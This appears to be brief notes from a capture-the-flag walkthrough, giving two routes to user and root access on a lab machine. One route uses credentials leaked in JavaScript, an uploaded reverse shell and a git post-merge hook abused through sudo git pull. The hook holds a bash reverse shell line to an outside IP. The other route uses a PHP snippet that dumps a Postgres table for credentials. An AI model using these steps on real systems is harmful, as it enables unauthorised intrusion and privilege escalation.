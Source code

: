 <h1>Method1</h1>

                                                        USER
                                                        
                                                        
   Enumerate -> /bookmarks.html -> Creds in Javascript -> clave:11des0081x -> Enumerate -> sudo git pull used (Remember it) -> Upload reverese shell -> Visit /profiles/filename.php -> Rev shell
   
   
                                                        ROOT
                                                        
                                                        
   sudo -l -> git pull used -> Read:https://www.liquidlight.co.uk/blog/using-a-post-merge-git-hook-to-clean-up-old-branches/ -> copy .git to /tmp/Dir1 -> create file in .git/hooks/post-merge with rev shell -> perform sudo git pull
   
   post-merge
   ```
   #!/bin/bash
   /bin/bash -i >& /dev/tcp/10.10.16.57/1234 1>&2
   ```

<h1>Method2</h1>

                                                      USER
                                                      
Enumerate -> /bookmarks.html -> Creds in js ->Login -> Search of postgres snippet -> Execute it to get creds of clave -> ssh in as clave

                                                      ROOT
                                                      
 RE .exe -> get password -> root
 
 ```
 <?php
	$db_connection = pg_connect("host=localhost port=5432 dbname=profiles user=profiles password=profiles");
	$result = pg_query($db_connection,"SELECT * from profiles");
	$res=pg_fetch_all($result);
	print_r($res);
?>
```
